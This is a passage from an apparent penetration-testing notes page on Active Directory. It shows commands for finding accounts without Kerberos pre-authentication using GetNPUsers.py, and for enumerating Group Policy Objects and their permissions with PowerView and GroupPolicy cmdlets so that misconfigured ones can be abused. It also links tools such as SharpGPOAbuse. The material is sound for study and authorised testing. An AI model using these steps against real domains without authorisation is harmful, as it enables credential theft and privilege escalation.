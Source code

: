 We can use now [Get-NPUsers.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) to hunt all users with Kerberoast pre-authentication not required:
```console
zero@pio$ GetNPUsers.py <DOMAIN>.LOCAL/ -dc-ip <DC IP> -no-pass -usersfile valid_ad_users 
```

### Group Policy Object (GPO) Abuse 

Group Policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment.  GPO misconfigurations can be abused to perform the following attacks:
- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

We can use tools like [Group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon) or [PingCastle](https://www.pingcastle.com/) to enumerate them. Or PowerView:
```console
PS C:\zeropio> Get-DomainGPO |select displayname
```

If Group Policy Management Tools are installed on the host we are working from, we can use various built-in GroupPolicy cmdlets:
```console
PS C:\zeropio> Get-GPO -All | Select DisplayName
```

Now we cna check if a user we control has any rights over a GPO:
```console
PS C:\zeropio> $sid=Convert-NameToSid "Domain Users"
PS C:\zeropio> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

Search by **WriteProperty** and **WriteDacl**. We can use GPO GUID to display the name of the GPO:
```console
PS C:\zeropio> Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```

Some tools, like [SharpGOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) can help us.


